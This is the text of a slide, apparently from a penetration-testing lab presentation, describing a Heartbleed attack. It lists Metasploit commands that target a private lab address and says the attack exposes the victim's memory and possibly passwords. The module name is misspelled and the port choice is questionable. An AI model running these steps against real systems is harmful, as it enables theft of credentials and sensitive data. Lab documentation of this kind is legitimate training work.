

# Exploitation: Heartbleed
01

02

Codes Used to Exploit

Ran: msfconsole

search heartbleed
Use server/openssl_hearbeat_client_memory
set rport 80
set rhosts 192.168.1.105
set verbose true
run

Tools & Processes

Used heartbleed open ssl to gain access to the victim’s memory.

Achievements

Gives the attacker access to the victim’s memory and possibly username and passwords and other sensitive data.